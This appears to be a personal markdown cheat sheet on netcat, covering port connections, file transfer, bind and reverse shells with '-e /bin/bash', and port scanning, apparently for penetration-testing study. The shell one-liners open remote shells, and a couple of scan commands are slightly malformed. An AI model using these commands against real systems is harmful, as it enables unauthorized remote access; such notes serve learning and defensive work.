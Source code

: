 


## Netcat


### Communicating to open ports
`nc -nv <ip.add.res.s> <port>`


```
-n: skip name resolution
-v: verbose
target IP address
target port
```

### Client/Server

#### Server
Listening on port 4444
`nc -nvlp 4444`

```
-n: skip name resolution
-v: verbose
-l: listen
-p: port
```


#### Client
`nc -nv <ip.add.res.s> 4444`

```
This can now be used as simple chat service/application.
```



### File transfer


#### Server
`nc -nlvp 4444 > incoming.exe`

```mermaid
flowchart TD; 
	A[Listner started on port 4444] --> B[Client Connected];
	B -- Yes --> C[Redirect input to piped exe];
```

#### Client

`nc -nv <ip.add.res.s> 4444 < <file_to_transfer.exe>`

```mermaid
flowchart TD; 
	A[Start connection] --> B[port 4444];
	B -- Yes --> C[send file_to_transfer.exe];
```


### Administration

The netcat traditional version of Netcat (compiled with the "-DGAPING_SECURITY_HOLE" flag) enables the -e option, which executes a program after making or receiving a successful connection.

#### Redirection

`-e` option can redirect input/output and error messages of executable to TCP/UDP port.

##### Shell binding

###### Server
`nc -nvlp 4444 -e /bin/bash` 

###### Client
`nc -nv <ip.add.res.s> 4444`
(Above clent will be presented shell of server this is called shell binding)


```mermaid
graph TD; 
client --> server_shell_session;
```


##### Reverse Shell

###### Server
`nc -nvlp 4444`

###### Client
`nc -nv <ip.add.res.s> 4444 -e /bin/bash`

Client gives shell access to server.

```mermaid
graph TD; 
server --> clients_shell_session;
```


### TCP Scanning

- Port scan on ports 3000-3999

`nc -nvv -w 1 -z 3000-3999`

### UDP Scanning

`nc -nv -u -z - w 1 3000-3999`
